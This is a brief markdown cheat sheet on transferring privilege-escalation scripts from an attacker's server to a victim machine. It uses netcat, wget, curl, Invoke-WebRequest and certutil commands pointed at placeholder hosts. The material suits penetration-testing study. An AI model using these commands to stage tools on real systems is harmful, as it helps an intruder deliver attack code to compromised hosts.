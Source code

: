# Privilege Escalation

## Transfer Scripts

### Start Local Server:

#### Apache2

> - Copy scripts to `/var/www/html`
> - `sudo systemctl start apache2`

#### SimpleHTTPServer

> - `python -m SimpleHTTPServer <port>`

### Download Scripts:

#### Linux

#### Without Server:

> - Victim: `nc -nvlp <port> > <script>`
> - Attacker: `nc -nv <ip> <port> < <script>`

#### With Server:

> - `wget http://<ip>/<script>`
> - `curl http://<ip>/<script> -o <script>`

#### Windows

#### With Server:

> - `Invoke-WebRequest http://<ip>/<script> -OutFile <script>`
> - `certutil.exe -urlcache -split -f "http://<ip>/<script>" <script>`
